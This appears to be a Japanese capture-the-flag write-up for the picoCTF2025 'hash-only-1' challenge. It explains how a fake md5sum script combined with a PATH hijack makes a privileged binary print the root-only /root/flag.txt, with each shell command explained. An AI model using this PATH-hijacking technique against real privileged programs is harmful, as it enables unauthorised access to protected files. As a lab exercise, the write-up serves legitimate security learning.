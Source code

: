 # picoCTF2025　hash-only-1

SSH接続できるので、実行ファイルをダウンロードしてghidraにぶちこむ

Functionsからmainを見ると
```
/bin/bash -c \'md5sum /root/flag.txt
```
で表示させていることがわかる
なのでmd5sumをcatに偽装することでflagを得る
catなどは使用不可だった

```
ctf-player@pico-chall$ echo '#!/bin/sh' > ./md5sum
ctf-player@pico-chall$ echo 'cat /root/flag.txt' >> ./md5sum
ctf-player@pico-chall$ chmod +x ./md5sum
```
```
echo '#!/bin/sh' > ./md5sum:
```
今いるディレクトリに md5sum という名前の新しいファイルを作成し、中身を #!/bin/sh としている。これによって、このファイルがシェルスクリプトであることを宣言している。
```
echo 'cat /root/flag.txt' >> ./md5sum
```
作成したmd5sumというファイルに、cat /root/flag.txtというコマンドを書き加える。
```
chmod +x ./md5sum
```
この md5sum ファイルに実行権限を与える。これにより、テキストファイルから実行可能なプログラムファイルになる。
```
ctf-player@pico-chall$ export PATH=.:$PATH
```
PATHとは

PATHには、lsやcatのようなコマンドを実行するときに、どこにそのプログラム本体があるかを探しに行く場所を格納する場所である。通常は/binなどが設定されている。
```
export PATH=.:$PATH
```
このコマンドにより、PATHのリストの一番最初に、カレントディレクトリを追加（```.```で表される）している。
これにより、システムはコマンドを探すときにカレントディレクトリを最初に探す。

```
ctf-player@pico-chall$ ./flaghasher
```
./flaghasherを実行する。
これにより、```/bin/bash -c \'md5sum /root/flag.txt```が```/bin/bash -c \'cat /root/flag.txt```として動く

これによりflagを得ることができる。

### 参考
https://h-takara.hatenablog.com/entry/2025/03/27/213444